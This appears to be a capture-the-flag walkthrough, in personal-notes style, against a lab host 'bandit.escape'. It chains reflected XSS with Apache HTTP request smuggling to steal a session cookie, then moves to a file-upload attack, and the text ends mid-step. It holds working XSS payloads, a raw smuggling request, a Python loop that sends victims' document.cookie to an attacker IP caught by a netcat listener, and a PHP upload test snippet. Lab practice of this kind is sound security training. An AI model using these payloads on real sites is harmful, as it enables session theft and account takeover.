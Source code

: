 
### Reflected XSS

Reflected XSS is a type of **Cross-Site Scripting (XSS)** attack where an attacker injects malicious scripts into a web application. The injected script is **reflected** off the web server and executed in the victim's browser.

**How It Works**

1. **Attacker crafts a malicious URL** containing a script.
2. **Victim clicks the link** (via phishing, comments, etc.).
3. **Web server reflects the input** without sanitization.
4. **Victim’s browser executes the script** (stealing cookies, session hijacking, etc.).

---

# Your job

Go to the home page. There's a **search** field.

So, insert the following code on the search field.

```
"><script>alert('1');</script>
```

After click on the Search button you'll see a pop up window like this:

![[Enumeration-20250325205126744.webp]]

>[!Success]
>The pagee is vulnerable to Reflected XSS.


## Apache 7.1.1 — HTTP Smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.

This version of Apache is vulnerable to HTTP Smuggling. On this [web](https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/) you can learn more about this vulnerability.

### Exploit

Use the following payload on Burp Suite.

```
GET / HTTP/1.1
Host: bandit.escape
Accept: */*
Connection: keep-alive
Content-Length: 71
Transfer-Encoding: chunked

0
GET /?filter="><script>alert('1')%3B<%2Fscript> HTTP/1.1
Sth:
```

1. Intercept  the http://bandit.escape/?filter=%22%3E%3Cscript%3Ealert%28%271%27%29%3B%3C%2Fscript%3E with Burp Proxy.
2. Send the request to Intruder.
3. Select `Payloads` and set Payload type = `null payloads`.
	![[Exploitation-20250401202714479.webp]]
4. Check the option `Continue indefinitely`.
5. Start the attack.
	![[Exploitation-20250401202952664.webp]]

	Now, upon refreshing the page, we’ll see our XSS in action even though we’re not interacting with the page.

## XSS + HTTP Smuggling = Cookie Graber

Now, you have to combine both vulnerabilities.

There's a tool called [The PHP cookie stealer](https://github.com/TheWation/PhpCookieStealer) that can be use in XSS attacks to steal browser cookies from victims.

The plan is as follows:

1. Host a server that acts as a cookie grabber.
2. Then deploy an XSS payload redirecting to our server.
3. The server reads the cookie.
4. We replace the cookies.


---
# Your job

#Attacking_Machine 
1. Start a netcat listener.
```
nc -lnvp 8002
```

2. Craft a payload. Create a file called xss.py.
```
import requests

url = "http://bandit.escape/"
body = f"""0

GET /?filter=a" /><script>document.write('<img+src%3d"http%3a//10.50.97.227%3a8002/test.gif%3fcookie%3d'+%2b+document.cookie+%2b+'"+/>')</script> HTTP/1.1
Whatever:""".replace('\n', '\r\n')

headers = {
	"Content-Length": str(len(body)),
	"Transfer-Encoding": "chunked",
	}

while True:
	r = requests.get(url,headers=headers, data=body)
```

3. Save the payload and run it.
```
python3 xss.py
```

4. Wait about a minute.
	![[Exploitation-20250405113050702.webp]]
	Gobuster showed there is a page called `upload.php`. Let's try to access.
	
5. Go to  http://bandit.escape/login.php to get the actual cookie.
6. Go to http://bandit.escape/upload.php.
7. Open the Dev. Options on your browser and paste the cookie from the previous step on the field `value`.

	![[Exploitation-20250405115302330.webp]]
8. Update the page and you'll have access to the uploads page.
	![[Exploitation-20250405115536051.webp]]


---
## File uploading

If you try to upload an image, there's not any trouble with the image type, but if the image is big a message will warn you: "Limit exceeded".

Viewing the page source you can see an `upload-image.js`  file.

![[Exploitation-20250407192923167.webp]]

This file contains the maximum size of the image to upload, 512 bytes.

![[Exploitation-20250407193109035.webp]]

And the type of images allowed.

![[Exploitation-20250407193248380.webp]]

### Finding images directory

Now, you need to know where the images are saved in order to upload a payload.

Returning to the home page of the website, you'll notice that files appear in the gallery as you upload your images.

![[Exploitation-20250407200119964.webp]]

Right-click on the image name and copy the link.

Navigate to the link.

![[Exploitation-20250407200959395.webp]]

You'll see the above message and the the directory where the images are saved is `uploads`.

### Payload PoC

- Intercepting with Burp Proxy try to upload and image.
- Send the request to Repeater.
- Delete all the image strange code.
- Add the following code:
```
<?
echo 'test':
/>
```


![[Exploitation-20250407210325144.webp]]


You have to create a small php payload 